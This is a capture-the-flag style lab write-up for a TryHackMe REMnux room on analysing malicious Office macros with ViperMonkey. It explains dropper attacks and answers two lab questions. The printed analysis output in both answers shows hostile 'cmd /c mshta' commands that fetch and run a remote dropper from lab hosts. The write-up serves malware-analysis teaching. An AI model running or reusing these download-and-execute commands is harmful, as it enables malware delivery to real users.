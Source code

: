 | ![REMnux](/_static/images/remnux-room-banner.png)
|:--:|
| [THM Room: REMnux](https://tryhackme.com/room/malremnuxv2) |

# Analysing malicious Microsoft Office macros

Malware infection via malicious macros (or scripts within Microsoft Office products such as Word and Excel) are some 
of the most successful attacks to date.

For example, current APT campaigns such as Emotet, QuickBot infect users by sending seemingly legitimate documents 
attached to emails i.e. an invoice for business. However, once opened, execute malicious code without the user knowing. 
This malicious code is often used in what’s known as a “dropper attack”, where additional malicious programs are 
downloaded onto the host.

To analyse macros we can use [ViperMonkey](https://github.com/decalage2/ViperMonkey), a parser engine that is capable 
of analysing visual basic macros without executing.

## Questions

**What is the name of the Macro for `DefinitelyALegitInvoice.doc`**

```text
Recorded Actions:
+----------------------+---------------------------+----------------+
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
| Found Heuristic      | DefoLegit                 |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://10.0. | Shell function |
|                      | 0.10:4444/MyDropper.exe   |                |
+----------------------+---------------------------+----------------+INFO     Found 7 possible IOCs. Stripping duplicates...
VBA Builtins Called: ['Shell']Finished analyzing DefinitelyALegitInvoice.doc .
```

**What is the URL the Macro in `Taxes2020.doc` would try to launch?**

```text
Recorded Actions:
+----------------------+---------------------------+----------------+
| Action               | Parameters                | Description    |
+----------------------+---------------------------+----------------+
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
| Found Heuristic      | X544FE                    |                |
| Entry Point          |                           |                |
| Execute Command      | cmd /c mshta http://tryha | Shell function |
|                      | ckme.com/notac2cserver.sh |                |
+----------------------+---------------------------+----------------+
```